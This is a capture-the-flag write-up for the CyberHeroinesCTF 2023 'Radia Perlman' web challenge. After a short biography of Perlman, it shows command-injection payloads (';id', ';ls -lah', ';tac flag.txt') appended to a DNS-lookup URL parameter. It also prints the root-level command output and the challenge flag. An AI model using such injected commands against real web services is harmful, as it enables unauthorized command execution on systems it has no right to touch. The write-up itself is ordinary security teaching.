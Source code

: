 ```yaml
---
title: CyberHeroinesCTF 2023 - Radia Perlman
date: Sun Sep 10 10:28:14 PM +04 2023
categories: [Writeup]
tags: [ctf,cyberheroinesctf,cyberheroinesctf2023,web,command_injection]
---
```


## Radia Joy Perlman

[Radia Joy Perlman](https://en.wikipedia.org/wiki/Radia_Perlman)  (/ˈreɪdiə/;[1] born December 18, 1951) is an American computer programmer and network engineer. She is a major figure in assembling the networks and technology to enable what we now know as the internet. She is most famous for her invention of the spanning-tree protocol (STP), which is fundamental to the operation of network bridges, while working for Digital Equipment Corporation, thus earning her nickname "Mother of the Internet". Her innovations have made a huge impact on how networks self-organize and move data. She also made large contributions to many other areas of network design and standardization: for example, enabling today's link-state routing protocols, to be more robust, scalable, and easy to manage. -  [Wikipedia Entry](https://en.wikipedia.org/wiki/Radia_Perlman)

## Description

Chal: We thought we'd build a  [webapp](https://cyberheroines-web-srv3.chals.io/)  to help the  [Mother of the Internet](https://www.youtube.com/watch?v=5D1v42nw25E)  capture the flag.

Alternate (Better) Link:  [Webapp](http://ec2-3-144-228-78.us-east-2.compute.amazonaws.com:6263/)

Author:  [Rusheel](https://github.com/Rusheelraj)

## Solution

![Radia-Perlman-1](/assets/images/CyberHeroinesCTF/2023/Radia-Perlman-1.png)

Same as [Grace Hopper]({% post_url CTFs/CyberHeroinesCTF/2023/2023-09-10-Grace-Hopper %}), when we execute dns request we get: 

```
Command Output: Server: 127.0.0.11 
Address: 127.0.0.11#53 
Non-authoritative answer: 
Name: cyberheroines.ctfd.io 
Address: 165.227.251.182 
Name: cyberheroines.ctfd.io 
Address: 165.227.251.183
```

`Command Output` is interesting. What if dns quering isnt implemented by webapp, but is ran as command?

```
Payload: ;id
URL: https://cyberheroines-web-srv3.chals.io/dns?ip=;id
Command Output: uid=0(root) gid=0(root) groups=0(root)
```

```
Payload: ;ls -lah
URL: https://cyberheroines-web-srv3.chals.io/dns?ip=;ls+-lah # Space = "+" or %20 (URLEncoded)

Command Output: 
total 72K
drwxr-xr-x 1 root root 4.0K Aug 27 00:09 .
drwxr-xr-x 1 root root 4.0K Sep  9 12:49 ..
-rw-r--r-- 1 root root 8.1K Aug 27 00:08 .DS_Store
-rw-r--r-- 1 root root 1.4K Aug 25 17:11 code7.js
-rw-r--r-- 1 root root   41 Aug 25 21:38 flag.txt
drwxr-xr-x 1 root root 4.0K Aug 25 17:11 node_modules
-rw-r--r-- 1 root root  25K Aug 25 17:11 package-lock.json
-rw-r--r-- 1 root root  272 Aug 25 17:11 package.json
drwxr-xr-x 2 root root 4.0K Aug 26 23:34 public
drwxr-xr-x 2 root root 4.0K Aug 27 00:31 views
```

`cat flag.txt` didnt work, but `tac flag.txt` worked. [tac](https://man7.org/linux/man-pages/man1/tac.1.html)

```
Payload: ;id
URL: https://cyberheroines-web-srv3.chals.io/dns?ip=;tac+flag.txt; 

Command Output:
chctf{1_l0v3_5p4wn1n6_n0d3_ch1ld_pr0c355}
```

> Flag: chctf{1_l0v3_5p4wn1n6_n0d3_ch1ld_pr0c355}
{: .prompt-tip }